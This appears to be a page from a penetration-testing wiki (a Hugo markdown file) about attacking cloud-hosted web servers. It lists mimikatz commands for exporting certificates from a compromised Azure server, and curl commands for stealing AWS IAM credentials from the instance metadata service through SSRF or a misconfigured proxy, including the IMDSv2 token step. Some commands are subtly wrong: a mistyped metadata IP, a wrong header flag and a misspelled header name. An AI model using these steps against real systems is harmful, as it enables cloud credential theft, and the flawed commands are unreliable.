 ```yaml
---
### The title for the content.
title : "cloud-provider-web-servers"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "Web Servers"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "cloud-provider-web-servers."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "password-spraying"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Cloud provider web servers

Cloud provider web servers have some special things you might not have on your 'normal' webserver.

### Azure windows webserver

If you are able to comprimise an azure server you might be able to use mimikatz to extract certificates and try to authenticitate to Azure with them.

```
crypto::capi
privilege::debug
crypto::cng
crypto::certificates /systemstore:local_machine/store:my /export
```

### AWS

#### Instance Metadata

Cloud server hosted on services like EC2 need a way to orient themselfs. Therefore a metadata endpoint was created that runs at 169.254.169.254. This can contain access/secrets keys to AWS and IAM credentials.

This should be reachable from localhost, can be abused after server compromise or SSRF.

IAM credentials are stored here

```
http://139.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE NAME>
```

Can be hit externally if nginx is misconfigured on AWS

```
curl --proxy host.domain.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

##### AWS EC2 Instance Metadata service Version 2 (IMDSv2)

Updated in november 2019. v2 requires a PUT request that response with a token.

```
TOKEN=`curl -X PUT "http://139.254.169.254/latest/api/token" -h "X-aws-ec2-metadata-token-ttl-secconds: 21600"`

curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```